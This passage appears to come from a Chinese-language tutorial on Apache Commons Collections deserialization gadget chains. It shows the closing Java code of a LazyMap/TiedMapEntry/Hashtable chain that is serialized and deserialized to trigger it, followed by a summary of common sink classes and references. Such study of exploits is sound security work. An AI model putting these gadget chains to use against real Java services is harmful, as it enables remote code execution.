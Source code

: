         // 2. 构造 chain2
        LazyMap<Object, Object> lazyMap = LazyMap.lazyMap(new HashMap<>(), new ChainedTransformer());
        
        // 3. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
        // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
        TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry<>(lazyMap, "EndlessShw");
        
        // 4. 创建 HashTable 和 HashMap，通过反射修改其 Map 为 HashMap
        Hashtable<Object, Object> toBeSerHashTable = new Hashtable<>();
        toBeSerHashTable.put(lazyMapTiedMapEntry, "随便");
        
        // 5. 将 LazyMap 中存放的 key 删除
        lazyMap.remove("EndlessShw");
        
        // 6. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
        Field factoryField = lazyMap.getClass().getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, transformedChain);
        String serialize = serialize(toBeSerHashTable);
        unSerialize(serialize);
    }
    ```

## 12. CC 总结

1. 文章主要参考了：

    > **大纲**：https://su18.org/post/ysuserial/#ysoserial-%E8%A1%A5%E5%85%A8%E8%AE%A1%E5%88%92
    > CC：https://su18.org/post/ysoserial-su18-2/#%E5%89%8D%E7%BD%AE%E7%9F%A5%E8%AF%86-7

    感谢 su18 师傅的总结。

2. 文章中 JDK 的类，在其他链中也有体现，常见的类有：

    1. `AnnotationInvocationHandler`，由于其动态代理的特性，导致作用很灵活。
    2. `TemplatesImpl`，这个类主要是可以加载字节码，从而可以传入各种恶意类，常用于 sink。
    
3. 有关 JDK 补丁的记录：
    https://hg.openjdk.org/jdk8u/jdk8u/jdk
    但是要找到具体是哪个修复补丁的话，目前还是有困难。
